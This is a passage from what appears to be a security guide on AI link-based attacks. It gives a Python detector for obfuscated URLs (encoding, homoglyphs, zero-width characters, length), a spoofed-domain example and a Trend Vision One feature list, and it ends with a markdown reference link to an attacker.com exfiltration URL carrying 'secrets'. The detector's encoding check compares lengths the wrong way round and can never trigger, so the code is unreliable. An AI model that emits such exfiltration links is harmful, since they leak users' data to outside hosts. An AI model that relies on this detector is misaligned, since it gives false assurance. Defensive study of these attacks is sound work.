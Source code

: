 **Implementation:**
```python
import urllib.parse
import unicodedata

def detect_url_obfuscation(url):
    """Detect suspicious URL patterns"""
    alerts = []

    # Check for encoded characters
    decoded = urllib.parse.unquote(url)
    if decoded != url and len(decoded) - len(url) > 10:
        alerts.append("Excessive URL encoding detected")

    # Check for homoglyphs (non-ASCII in domain)
    parsed = urllib.parse.urlparse(url)
    domain = parsed.netloc

    for char in domain:
        if ord(char) > 127:  # Non-ASCII
            alerts.append(f"Non-ASCII character in domain: {char} (U+{ord(char):04X})")

    # Check for zero-width characters
    zero_width_chars = ['\u200B', '\u200C', '\u200D', '\uFEFF']
    for zwc in zero_width_chars:
        if zwc in url:
            alerts.append("Zero-width character detected")

    # Check for unusually long URL
    if len(url) > 500:
        alerts.append("Unusually long URL (potential data exfiltration)")

    return alerts

# Usage
url = "https://аccounts.google.com/login"  # Cyrillic 'а'
alerts = detect_url_obfuscation(url)
for alert in alerts:
    print(f"⚠️ {alert}")
```

---

### 4. Trend Vision One (Trend Micro)
**Purpose:** Enterprise AI security platform with prompt injection detection

**Features:**
- Prompt injection detection in real-time
- URL reputation checking integrated with AI systems
- Zero Trust Secure Access with LLM-aware policies
- Monitor AI-generated hyperlinks for suspicious patterns


[ref]: https://attacker.com/exfil?data=secrets